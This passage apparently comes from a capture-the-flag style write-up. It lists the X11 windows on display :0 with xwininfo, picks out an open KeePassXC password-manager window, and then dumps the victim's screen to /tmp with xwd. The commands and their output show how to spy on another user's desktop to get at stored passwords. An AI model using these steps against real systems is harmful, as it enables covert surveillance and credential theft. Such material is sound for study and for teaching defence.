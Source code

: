 So the display is at `:0`    
To see the `windows`:   
```bash
$ xwininfo -root -tree -display :0

xwininfo: Window id: 0x533 (the root window) (has no name)

  Root window id: 0x533 (the root window) (has no name)
  Parent window id: 0x0 (none)
     26 children:
     0x80000b "gnome-shell": ("gnome-shell" "Gnome-shell")  1x1+-200+-200  +-200+-200
        1 child:
        0x80000c (has no name): ()  1x1+-1+-1  +-201+-201
     0x800021 (has no name): ()  802x575+-1+26  +-1+26
        1 child:
        0x1e00006 "Passwords - KeePassXC": ("keepassxc" "keepassxc")  800x536+1+38  +0+64
           1 child:
           0x1e000fe "Qt NET_WM User Time Window": ()  1x1+-1+-1  +-1+63
     0x1e00008 "Qt Client Leader Window": ()  1x1+0+0  +0+0
     0x800017 (has no name): ()  1x1+-1+-1  +-1+-1
     0x2000001 "keepassxc": ("keepassxc" "Keepassxc")  10x10+10+10  +10+10
     0x1e00004 "Qt Selection Owner for keepassxc": ()  3x3+0+0  +0+0
     0x1c00002 (has no name): ()  10x10+0+0  +0+0
     0x1c00001 "gsd-xsettings": ("gsd-xsettings" "Gsd-xsettings")  10x10+10+10  +10+10
     0x1a00001 "gsd-keyboard": ("gsd-keyboard" "Gsd-keyboard")  10x10+10+10  +10+10
     0x1800001 "evolution-alarm-notify": ("evolution-alarm-notify" "Evolution-alarm-notify")  10x10+10+10  +10+10
     0x1400001 "gsd-wacom": ("gsd-wacom" "Gsd-wacom")  10x10+10+10  +10+10
     0x1600001 "gsd-media-keys": ("gsd-media-keys" "Gsd-media-keys")  10x10+10+10  +10+10
     0x1200001 "gsd-power": ("gsd-power" "Gsd-power")  10x10+10+10  +10+10
     0x1000001 "gsd-color": ("gsd-color" "Gsd-color")  10x10+10+10  +10+10
     0xc00001 "ibus-extension-gtk3": ("ibus-extension-gtk3" "Ibus-extension-gtk3")  10x10+10+10  +10+10
     0xa00003 "ibus-xim": ()  1x1+0+0  +0+0
        1 child:
        0xa00004 (has no name): ()  1x1+-1+-1  +-1+-1
     0xa00001 "ibus-x11": ("ibus-x11" "Ibus-x11")  10x10+10+10  +10+10
     0x800011 (has no name): ()  1x1+-100+-100  +-100+-100
     0x80000f (has no name): ()  1x1+-1+-1  +-1+-1
     0x800009 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800007 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800006 "GNOME Shell": ()  1x1+-100+-100  +-100+-100
     0x800001 "gnome-shell": ("gnome-shell" "Gnome-shell")  10x10+10+10  +10+10
     0x600008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800010 "mutter guard window": ()  800x600+0+0  +0+0

```

`0x1e00006 "Passwords - KeePassXC": ("keepassxc" "keepassxc") ` looks promising!   

Victim:
Took a screenshot of the screen with `xwd` and saved to `/tmp`:
```bash
$ xwd -root -screen -silent -display :0 > /tmp/squashed.xwd
```
